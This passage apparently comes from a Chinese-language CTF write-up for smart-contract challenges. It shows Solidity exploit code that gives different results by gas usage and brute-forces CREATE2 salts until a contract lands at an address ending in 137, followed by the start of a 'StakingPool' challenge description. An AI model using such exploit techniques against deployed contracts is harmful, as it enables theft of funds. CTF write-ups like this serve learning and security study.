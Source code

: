             // first call
            if (usedGas > 1000) {
                return keccak256(abi.encodePacked("1337"));
            }
            // second call
            else {
                return keccak256(abi.encodePacked("13337"));
            }
        }
    }

    contract Hack {
        Utils utils = new Utils();
        Foo foo = new Foo();
        HackSub public hackSub;

        constructor() {}

        function testGasFeeInStage2(uint256 gasFee) public returns (uint) {
            uint res = foo._stage2{gas: gasFee}();
            return res;
        }

        function run() public {

            bytes memory creationCode = type(HackSub).creationCode;
            bytes memory params = abi.encode(address(foo));        
            bytes memory bytecode = utils.getBytecode(creationCode, params);

            bool find = false;
            for (uint256 i = 6000; i < 8000; i++) {
                bytes32 salt = keccak256(abi.encodePacked(i));
                uint256 create2Addr = uint256(uint160(utils.getAddress(bytecode, salt)));
                if (create2Addr % 1000 == 137) {
                    find = true;
                    console.log("create2Addr found: %s", create2Addr);
                    hackSub = HackSub(utils.deployAssembly(bytecode, salt));
                    break;
                }
            }

            require(find, "create2Addr not found");
            hackSub.run();
        }

        function isSolved() public view returns (bool) {
            return foo.isSolved();
        }
    }
    ```


## StakingPool

题目质押池有 2 个 奖励代币，一个是 ERC20,另一个是 ERC20V2,然后质押区块限制了只有 60 个，并且每个块奖励有 1e5 eth，即最多能够拿到的奖励是 6e6 eth。
